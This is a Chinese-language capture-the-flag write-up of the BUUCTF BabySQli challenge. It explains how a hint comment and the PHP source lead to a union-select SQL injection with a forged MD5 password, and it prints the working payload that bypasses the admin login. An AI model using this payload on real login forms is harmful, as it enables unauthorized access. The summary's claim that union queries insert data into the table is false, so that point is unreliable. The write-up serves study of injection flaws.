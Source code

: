 # T10 还是SQL注入

> 题目：BUUCTF [GXYCTF2019]BabySQli

__0x00 审题__

> 啥也不会（

开始能试的都试了，有过滤，回显一直是那两个，直接post传参还没反应，不知道怎么弄了，原代码有一行绿字开始看都没看直接走了，看了别人的才知道有一定的提示作用

> 只能说接下来借鉴程度很高

__0x01 解题__

1. 看源代码

```
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

这是一行需要经过base32和base64两次加密才能得到的secret（

```
select * from user where username = '$name'
```

在name处存在注点

2. BUUCTF提供源码，看看重点：

```php
    if($arr[1] == "admin"){
        if(md5($password) == $arr[2]){
            echo $flag;
        }
        else{
            die("wrong pass!");
        }
    }
    else{
        die("wrong user!");
```

* 这个我看的懂，当名字为admin时，先将我们提交的密码进行MD5加密，然后与数据库中的进行比较

3. 传参

```
' union select 1,'admin','e10adc3949ba59abbe56e057f20f883e'#
pw=123456
```

得到FLAG

__0X02 总结__

1. 形如大写字母与数字相间的，可以用base32解密
2. 联合查询的数据库特性：联合查询不存在的数据时，数据库会将这段数据插入到表中，构造虚拟数据。
3. union select会把查询结果接在前一个查询结果后面，前面如果查到了东西，那么取得还是第一行，除非有limit 这种取第几行
4. 问题1：为何时post传参我却不能用hackbar传参？
5. 问题2：如何区分何时该用什么注入？
